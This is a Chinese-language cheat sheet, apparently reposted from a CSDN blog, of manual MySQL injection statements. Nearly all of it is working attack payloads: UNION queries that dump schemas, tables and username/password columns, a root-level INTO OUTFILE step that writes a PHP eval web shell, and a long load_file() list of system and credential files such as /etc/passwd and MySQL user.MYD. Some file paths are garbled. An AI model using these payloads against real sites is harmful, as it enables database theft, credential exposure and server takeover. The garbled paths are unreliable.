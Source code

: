 ```yaml
---
title: "MySQL 手工注入常用语句"
id: csdn59480461
---
```


判断是否存在SQL注入

```
'
and 1=1
and 1=2
```

暴字段长度

```
Order by 数字
```

匹配字段

```
and 1=1 union select 1,2,..,n
```

暴字段位置

```
and 1=2 union select 1,2,..,n
```

利用内置函数暴数据库信息

```
version() database() user()
```

不用猜解可用字段暴数据库信息(有些网站不适用):

```
and 1=2 union all select version() 
and 1=2 union all select database() 
and 1=2 union all select user() 
```

操作系统信息：

```
and 1=2 union all select @@global.version_compile_os from mysql.user 
```

数据库权限：

```
and ord(mid(user(),1,1))=114  返回正常说明为root
```

暴库 (mysql>5.0)

Mysql 5 以上有内置库 `information_schema`，存储着mysql的所有数据库和表结构信息

```
and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 0,1
```

猜表

```
and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=数据库（十六进制） limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录）—
```

猜字段

```
and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schema.COLUMNS where TABLE_NAME=表名（十六进制）limit 0,1
```

暴密码

```
and 1=2 Union select 1,2,3,用户名段,5,6,7,密码段,8,9 from 表名 limit 0,1
```

高级用法（一个可用字段显示两个数据内容）：

```
Union select 1,2,3,concat(用户名段,0x3c,密码段),5,6,7,8,9 from 表名 limit 0,1
```

直接写马(Root权限)

条件：

1、知道站点物理路径

2、有足够大的权限（可以用s`elect …. from mysql.user`测试）

3、`magic_quotes_gpc()=OFF`

```
select ‘<?php eval_r($_POST[cmd])?>' into outfile ‘物理路径'
and 1=2 union all select 一句话HEX值 into outfile '路径'
```

`load_file()` 常用路径：

1.  `replace(load_file(0×2F6574632F706173737764),0×3c,0×20)`
2.  `replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))`
    上面两个是查看一个PHP文件里完全显示代码.有些时候不替换一些字符,如 `<` 替换成”空格” 返回的是网页.而无法查看到代码.
3.  `load_file(char(47))` 可以列出FreeBSD,Sunos系统根目录
4.  `/etc tpd/conf tpd.conf`或`/usr/local/apche/conf tpd.conf` 查看linux APACHE虚拟主机配置文件
5.  `c:\Program Files\Apache Group\Apache\conf \httpd.conf` 或`C:\apache\conf \httpd.conf`查看WINDOWS系统apache文件
6.  `c:/Resin-3.0.14/conf/resin.conf` 查看jsp开发的网站 resin文件配置信息.
7.  `c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf` 查看linux系统配置的JSP虚拟主机
8.  `d:\APACHE\Apache2\conf\httpd.conf`
9.  `C:\Program Files\mysql\my.ini`
10.  `../themes/darkblue_orange/layout.inc.php phpmyadmin` 爆路径
11.  `c:\windows\system32\inetsrv\MetaBase.xml` 查看IIS的虚拟主机配置文件
12.  `/usr/local/resin-3.0.22/conf/resin.conf` 针对3.0.22的RESIN配置文件查看
13.  `/usr/local/resin-pro-3.0.22/conf/resin.conf` 同上
14.  `/usr/local/app/apache2/conf/extra tpd-vhosts.conf` APASHE虚拟主机查看
15.  `/etc/sysconfig/iptables` 本机防火墙策略
16.  `usr/local/app/php5 b/php.ini` PHP 的相当设置
17.  `/etc/my.cnf` MYSQL的配置文件
18.  `/etc/redhat-release` 红帽子的系统版本
19.  `C:\mysql\data\mysql\user.MYD` 存在MYSQL系统中的用户密码
20.  `/etc/sysconfig/network-scripts/ifcfg-eth0` 查看IP.
21.  `/usr/local/app/php5 b/php.ini` //PHP相关设置
22.  `/usr/local/app/apache2/conf/extra tpd-vhosts.conf` //虚拟网站设置
23.  `C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini`
24.  `c:\windows\my.ini`
25.  `c:\boot.ini`

网站常用配置文件

```
config.inc.php、config.php。
```

`load_file()`时要用`replace(load_file(HEX)，char(60),char(32))`

注：

```
Char(60)表示 <
Char（32）表示 空格
```

手工注射时出现的问题：

当注射后页面显示：

```
Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation 'UNION'
```

如：

```
/instrument.php?ID=13 and 1=2 union select 1,load_file(0x433A5C626F6F742E696E69),3,4,user()
```

这是由于前后编码不一致造成的，

解决方法：在参数前加上 `unhex(hex(参数))`就可以了。上面的URL就可以改为：

```
/instrument.php?ID=13 and 1=2 union select 1,unhex(hex(load_file(0x433A5C626F6F742E696E69))),3,4,unhex(hex(user()))
```